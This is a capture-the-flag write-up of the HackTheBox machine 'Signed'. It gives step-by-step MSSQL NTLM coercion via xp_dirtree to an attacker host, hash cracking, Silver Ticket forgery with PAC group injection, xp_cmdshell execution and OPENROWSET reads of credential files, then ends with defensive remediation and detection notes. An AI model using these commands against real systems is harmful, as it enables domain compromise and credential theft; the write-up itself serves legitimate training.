

> Published after the machine was retired, in line with HackTheBox content rules.
{: .prompt-info }

## Machine Overview

| Field | Details |
|-------|---------|
| **Name** | Signed |
| **OS** | Windows (Active Directory DC) |
| **Difficulty** | Medium |
| **Domain** | `signed.htb` (`DC01.signed.htb`) |
| **Key Skills** | MSSQL authentication coercion, NetNTLMv2 cracking, Kerberos Silver Ticket, PAC group injection, OPENROWSET BULK file read |

> Assumed-breach: we start with low-privileged MSSQL credentials `scott : Sm230#C5NatH`, as is common in real-world AD engagements.
{: .prompt-info }

## Attack Path at a Glance

The DC exposes **only MSSQL (1433)**, so the entire chain runs through the database. We coerce the SQL service into authenticating to us, capture the **`mssqlsvc`** NetNTLMv2 hash, and crack it. Because `mssqlsvc` holds the MSSQL SPN, its key lets us **forge Kerberos Silver Tickets** straight to the SQL service — no KDC required. Injecting the `IT` group into the ticket's PAC grants **sysadmin**, and `xp_cmdshell` gives the user flag. For root, a second ticket abuses `OPENROWSET(BULK ...)`: setting the ticket's `user-id` to the service account's own RID and adding **Domain Admins** lets SQL read any file on disk.



## Reconnaissance

### Port Scan

```console
$ nmap 10.129.242.173
PORT     STATE SERVICE
1433/tcp open  ms-sql-s
```

A single open port. With only MSSQL reachable, every step has to happen through the SQL service.

### Login as `scott`

```console
$ mssqlclient.py scott:'Sm230#C5NatH'@10.129.242.173
```
```sql
SELECT SYSTEM_USER;                     -- scott
SELECT IS_SRVROLEMEMBER('sysadmin');    -- 0  (guest@master)
SELECT @@VERSION;                       -- SQL Server 2022, Windows Server 2019, host DC01
```

`scott` is only a guest with no server roles. We can run queries, but nothing privileged — yet queries alone are enough to make the service authenticate outward.

## Credential Access — Coercion → `mssqlsvc`

### Coerce the SQL service to authenticate to us

MSSQL's `xp_dirtree` will happily reach out to a UNC path. Pointing it at our host makes the **service account** perform NTLM authentication, which we capture. Start Responder on the VPN interface:

```console
$ sudo responder -I tun0
```

Then, in the SQL session, trigger the outbound auth:

```sql
EXEC master..xp_dirtree '\\10.10.14.152\share';
```

Responder catches the NetNTLMv2 hash of the account MSSQL runs as:

```text
[SMB] NTLMv2-SSP Username : SIGNED\mssqlsvc
[SMB] NTLMv2-SSP Hash     : mssqlsvc::SIGNED:...
```

### Crack the hash

```console
$ hashcat -m 5600 mssqlsvc.hash /usr/share/wordlists/rockyou.txt
...
MSSQLSVC::SIGNED:...:purPLE9795!@
```

> `mssqlsvc` is the service account running MSSQL and owns the SPN `MSSQLSvc/dc01.signed.htb:1433`. That SPN is exactly what makes a Silver Ticket possible — the service validates tickets with this account's key.
{: .prompt-info }

Logging in as `mssqlsvc` directly still only yields guest, but we don't need its login — we need its **key** to forge tickets.

## Initial Access — Silver Ticket → sysadmin → `xp_cmdshell`

### Prepare the forgery inputs

The NT hash from the cracked password:

```console
$ python3 -c "import hashlib;print(hashlib.new('md4','purPLE9795!@'.encode('utf-16le')).hexdigest())"
ef699384c3285c54128a3ee1ddb1a0cc
```

The domain SID (and confirmation that `SIGNED\IT`, RID 1105, is the group mapped to sysadmin on the SQL server):

```sql
SELECT sys.fn_varbintohexstr(SUSER_SID('SIGNED\IT'));
-- Domain SID: S-1-5-21-4088429403-1159899800-2753317549  (RID 1105 = IT)

SELECT p.name AS login, r.name AS role
FROM sys.server_role_members m
JOIN sys.server_principals p ON m.member_principal_id=p.principal_id
JOIN sys.server_principals r ON m.role_principal_id=r.principal_id;
-- SIGNED\IT -> sysadmin
```

Inputs for the forge:
- NT hash: `ef699384c3285c54128a3ee1ddb1a0cc`
- Domain SID: `S-1-5-21-4088429403-1159899800-2753317549`
- SPN: `MSSQLSvc/dc01.signed.htb:1433`

### Why a Silver Ticket works here

A Silver Ticket is forged **offline** using the service account's key and presented **directly to the service** (MSSQL on 1433). The DC's KDC (port 88) is never contacted, so it doesn't matter that Kerberos pre-auth or other DC services are firewalled. By hand-crafting the PAC we decide which groups the service believes we belong to — adding `IT` (1105) makes MSSQL treat us as **sysadmin**.

```console
$ ticketer.py \
    -nthash ef699384c3285c54128a3ee1ddb1a0cc \
    -domain-sid S-1-5-21-4088429403-1159899800-2753317549 \
    -domain signed.htb \
    -spn MSSQLSvc/dc01.signed.htb:1433 \
    -user-id 500 -groups 513,512,1105 \
    Administrator

$ export KRB5CCNAME=$PWD/Administrator.ccache
$ mssqlclient.py -k dc01.signed.htb -target-ip 10.129.242.173
```
```sql
SELECT SYSTEM_USER, IS_SRVROLEMEMBER('sysadmin');
-- SIGNED\Administrator , 1   (sysadmin!)
```

> Kerberos is time-sensitive — your clock must be within ~5 minutes of the DC, or the ticket is rejected. Sync first: `sudo ntpdate 10.129.242.173`, then forge.
{: .prompt-warning }

### Execute commands and grab the user flag

As sysadmin we can turn on `xp_cmdshell` and run commands on the DC as `signed\mssqlsvc`:

```sql
EXEC sp_configure 'show advanced options',1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';            -- signed\mssqlsvc
EXEC xp_cmdshell 'type C:\Users\mssqlsvc\Desktop\user.txt';
```

### user.txt

```console
********************************
```

## Privilege Escalation — OPENROWSET BULK File Read

`xp_cmdshell` runs as `mssqlsvc`, which **cannot** read the Administrator's files — a spawned process doesn't carry the groups we injected into the Kerberos ticket:

```sql
EXEC xp_cmdshell 'type C:\Users\Administrator\Desktop\root.txt';  -- Access is denied
```

### The trick

`OPENROWSET(BULK ...)` reads a file using the **groups from the authentication ticket itself** — but it only honours them when the ticket's `user-id` is set to the **actual RID of `mssqlsvc` (1103)**. With that, adding **Domain Admins (512)** to the PAC grants file access (the ticket's *username* is irrelevant). So we forge a second ticket:

```console
$ ticketer.py \
    -nthash ef699384c3285c54128a3ee1ddb1a0cc \
    -domain-sid S-1-5-21-4088429403-1159899800-2753317549 \
    -domain signed.htb \
    -spn MSSQLSvc/DC01.signed.htb:1433 \
    -user-id 1103 -groups 512,1105 \
    doesntmatter

$ export KRB5CCNAME=$PWD/doesntmatter.ccache
$ mssqlclient.py -no-pass -k DC01.signed.htb -target-ip 10.129.242.173
```
```sql
SELECT * FROM OPENROWSET(BULK 'C:\Users\Administrator\Desktop\root.txt', SINGLE_CLOB) AS Contents;
```

### root.txt

```console
********************************
```

### Bonus — recovering the Administrator password

The same BULK read dumps the Administrator's PowerShell history:

```sql
SELECT * FROM OPENROWSET(BULK
  'C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt',
  SINGLE_CLOB) AS Contents;
```

which contains a password reset:

```powershell
Set-ADAccountPassword -Identity "Administrator" `
  -NewPassword (ConvertTo-SecureString "************" -AsPlainText -Force) -Reset
```

giving a full interactive shell over WinRM-HTTPS (5986). Domain compromised. 🏁

## Defender's View

| # | Finding | Severity | Remediation |
|---|---------|----------|-------------|
| 1 | MSSQL `xp_dirtree` allows outbound NTLM coercion | High | Disable unneeded extended stored procs; block outbound SMB (445) from the DB server; prefer Kerberos-only |
| 2 | Service account password crackable (`purPLE9795!@`) | High | Use a 25+ char random password or a gMSA for `mssqlsvc` |
| 3 | A domain group (`IT`) mapped to MSSQL `sysadmin` | High | Remove broad group-to-sysadmin mappings; grant least privilege |
| 4 | Silver Ticket possible from the service key | Critical | Rotate the service account key regularly; use gMSA (auto-rotating); monitor for anomalous service tickets |
| 5 | `xp_cmdshell` enabled by a privileged login | High | Keep `xp_cmdshell` disabled; alert on `sp_configure` changes |
| 6 | `OPENROWSET`/`BULK` ad-hoc file access enabled | High | Disable `Ad Hoc Distributed Queries`; restrict `BULK` / `ADMINISTER BULK OPERATIONS` |

### MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|--------|-----------|----|
| Credential Access | Forced Authentication | T1187 |
| Credential Access | Brute Force: Password Cracking | T1110.002 |
| Defense Evasion / Priv Esc | Use Alternate Authentication Material: Silver Ticket | T1558.002 |
| Execution | Command and Scripting Interpreter | T1059 |
| Collection | Data from Local System (OPENROWSET read) | T1005 |

### Detection Ideas

- Alert on `xp_dirtree` / `xp_fileexist` pointing at external UNC paths (coercion).
- Watch for `sp_configure 'xp_cmdshell'` toggles and `xp_cmdshell` child processes under `mssqlsvc`.
- Monitor Kerberos service tickets to the MSSQL SPN with anomalous group SIDs in the PAC.
- Flag `OPENROWSET(BULK ...)` reads of sensitive paths (user profiles, PSReadLine history).

## Lessons Learned

- **A single exposed service is enough** — the whole DC fell through MSSQL alone.
- **Silver Tickets bypass the KDC**: own a service key and you mint access to that service directly, firewall or not; the PAC lets you pick your own groups.
- **PAC `user-id` matters**: `OPENROWSET(BULK)` only honoured the injected groups when the ticket's RID matched the real `mssqlsvc` account — a subtle but decisive detail.
- **gMSA + disabled `xp_cmdshell`/ad-hoc queries** would have broken this chain at several points.

## References

- [Impacket `ticketer.py`](https://github.com/fortra/impacket) — forging Silver Tickets
- [hashcat mode 5600](https://hashcat.net/wiki/doku.php?id=example_hashes) — NetNTLMv2
- [MSSQL `OPENROWSET` BULK](https://learn.microsoft.com/en-us/sql/t-sql/functions/openrowset-transact-sql) — ad-hoc file reads
- [Responder](https://github.com/lgandx/Responder) — capturing coerced NTLM authentication
